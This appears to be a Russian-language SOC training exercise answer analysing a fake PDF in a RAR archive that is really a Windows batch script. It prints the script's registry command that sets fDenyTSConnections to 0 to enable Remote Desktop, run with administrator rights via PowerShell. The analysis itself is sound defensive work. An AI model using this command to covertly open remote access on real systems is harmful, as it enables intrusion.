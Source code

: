 # В архиве 567000-13.rar находится файл 567000-13.pdf. Если его открыть в архиваторе WinRAR (winrar-x64-602ru.exe) происходят «странные вещи».
## 1.	Опишите, что происходит.

1) Отключает вывод команд на экран с помощью @echo off.

2)Создает новый файл 01.bat в папке %appdata% (папка пользователя) со следующим содержимым:

@echo off - отключает вывод команд на экран

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f - добавляет запись в реестр Windows, которая разрешает удаленные подключения к терминальному серверу.

Запускает созданный файл 01.bat с повышенными правами администратора, используя PowerShell-команду Start-Process.

## 2.	Выделите признаки, по которым понятно, что происходят подозрительные действия.

┌──(root㉿kali)-[~/mnt/INT26/Задачи для интенсива. SOC/Task 4]

└─# file 567000-13/567000-13.pdf/567000-13.pdf\ .cmd 

567000-13/567000-13.pdf/567000-13.pdf .cmd: DOS batch file, ASCII text

Файл «567000-13/567000-13.pdf/567000-13.pdf .cmd» идентифицируется как пакетный файл DOS, который представляет собой текстовый файл в кодировке ASCII с расширением «.cmd». Это указывает на то, что файл является командным сценарием Windows, а не PDF-документом.

Я не стал запускать вредоносный файл, но сделаю предположение, что он попросит разрешение администратора при его запуске, что также подозрительно.

## 3.	Укажите каким образом можно удостовериться в том, удалось ли атакующему достичь цели.

Необходимо проверить, была ли добавлена запись в реестр Windows, которая разрешает удаленные подключения:

Get-ItemProperty -Path "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections"

Можно попытаться установить удаленное подключение к системе, чтобы убедиться, что оно теперь возможно.
